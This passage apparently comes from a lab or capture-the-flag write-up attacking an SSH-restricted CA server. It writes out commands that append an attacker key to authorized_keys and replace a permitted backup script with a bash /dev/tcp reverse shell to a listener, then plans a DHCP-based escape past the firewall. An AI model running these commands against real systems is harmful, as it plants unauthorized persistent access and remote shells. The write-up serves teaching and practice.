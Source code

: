 A very simple way that we could get around this is by simply installing our own, unrestricted ssh key by overwriting `authorized_keys` with an updated version containing our ssh key.

```shell
scp -i .ssh/caserver laurin@192.168.1.21:.ssh/authorized_keys ./malicious_keys

ssh-keygen -t rsa -q -f "./bad" -N ""

cat bad.pub >> ./malicious_keys

scp -i .ssh/caserver ./malicious_keys laurin@192.168.1.21:.ssh/authorized_keys

ssh -i bad laurin@192.168.1.21
```

And we have unrestricted (but unfortunately unprivileged) SSH access.

We can now look at some configuration files.

In addition to looking executing scp, the previous key can also execute the command `./backup/backup.sh emergency` as can be seen in `.ssh/allowed-commands.sh`. This opens up another attack vector: we can replace `backup.sh` with a malicious script and execute it - for example one that allows us to get a reverse shell.

``

```bash
# Create reverse shell pointing to the ip of the admin-server
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.11/1337 0>&1'" > reverse.sh

# In another terminal
nc -l -n -vv -p 1337

scp -i .ssh/caserver ./reverse.sh laurin@192.168.1.21:./backup/backup.sh

ssh -i .ssh/caserver laurin@192.168.1.21 "./backup/backup.sh emergency"
```

If we attempt that, we are do not get a reverse ssh connection. Inspecting firewall logs with `dmesg` using the ssh connection to the ca server, we see that the packets are being dropped.

Unfortunately, we cannot view firewall rules, since we are an unprivileged user(and we do not have the password to use `sudo`). We can still look at some interesting files though.

If we look at what network interfaces there are available with `ip a`, we see `enp0s3` and `enp0s8`. `enp0s8` does not seem to have an IP assigned to it.

We can see the network configuration of the interfaces at `/etc/netplan/00-installer-config.yaml`.

Seems like `enp0s8` was configured to access the internet, judging by the presence of the `nameservers` entry. It was also configured to get its IP from a DHCP server `dhcp4: true`

Since it is likely that there are no firewall rules set up for outgoing connections on this interface, or in the worst case only connections to ports 80 and 443 are allowed, we could exploit this to gain a reverse shell.

We attach our machine to the same network that the adapter `enp0s8` is attached to (i.e. `inet`). If we listen to the traffic with wireshark, we indeed see DHCP-discover requests.
